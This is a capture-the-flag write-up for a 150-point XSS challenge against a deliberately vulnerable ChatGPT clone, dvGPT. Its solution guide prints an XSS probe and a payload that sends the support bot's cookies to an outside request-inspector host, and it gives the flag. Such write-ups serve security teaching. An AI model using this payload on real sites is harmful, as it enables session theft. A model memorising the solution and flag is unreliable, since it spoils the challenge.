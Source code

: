 # BadAI - 150pts
### 01-G-JWJCK
Author: Nate Singer (Helix)<br>
Challenge Resources: [./resources/app-1_dvgpt/](./resources/app-1_dvgpt/)

ChatGPT is a powerful tool for nearly anything you can imagine, is it really secure?

## Challenge Prompt
So we have this guy named Bill that works here--he handles the support tickets for dvGPT. If you have any problems let us know and Bill will check it out. Bill does nothing but stare at the ticket feed, so you can expect him to check your request within a couple seconds.

Bill can only view pages from dvGPT though, so don't bother sending him anything else.

*The flag is stored in a cookie in Bill's browser.*

## Solution Guide
1. Identify XSS vulnerability in the 404 page with the payload: `http://192.168.1.65:5000/%3Cimg%20src=x%20onerror=%22alert(1)%22%3E`
2. Use a bit of javascript to steal Bill's session cookies and send them to a webhook:
`https://wtashuxsyj.final.hackabit.com/<img src='x' onerror="location.href='http://requestinspector.com/inspect/01h06rzem65z0hvcknwd851ss8/'+document.cookie;" />`

flag: `flag{mirroring_to_the_max}`
